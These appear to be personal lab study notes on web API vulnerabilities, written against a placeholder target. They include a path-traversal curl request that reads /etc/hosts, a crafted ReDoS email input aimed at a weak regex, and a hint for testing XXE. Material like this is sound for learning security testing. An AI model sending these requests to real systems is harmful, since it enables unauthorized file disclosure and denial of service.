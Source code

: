## Insecure File Upload

## LFI
```shell-session
$ curl "http://<TARGET IP>:3000/api/download/..%2f..%2f..%2f..%2fetc%2fhosts"

127.0.0.1 localhost
127.0.1.1 nix01-websvc
```

## XSS
- like reflection in error messages 

## SSRF



## Regular Expression Denial of Service (ReDoS)
	Regular Expression Denial of Service (ReDoS) is a type of cyber attack that        targets applications or systems that use regular expressions to process and        validate input data.

**EX:**
```shell-session
curl "http://<TARGET IP>:3000/api/check-email?email=test_value"

{"regex":"/^([a-zA-Z0-9_.-])+@(([a-zA-Z0-9-])+.)+([a-zA-Z0-9]{2,4})+$/","success":false}
```

- The second and third groups are doing bad iterative checks.
- lets try this exploit and the server will respond in more time :

```shell-session
curl "http://<TARGET IP>:3000/api/check-email?email=jjjjjjjjjjjjjjjjjjjjjjjjjjjj@ccccccccccccccccccccccccccccc.55555555555555555555555555555555555555555555555555555555."

{"regex":"/^([a-zA-Z0-9_.-])+@(([a-zA-Z0-9-])+.)+([a-zA-Z0-9]{2,4})+$/","success":false}
```


## XXE
### somtiems restful apis that uses json can still support xml try to change content type and send xml request that can be vulnerable to xxe
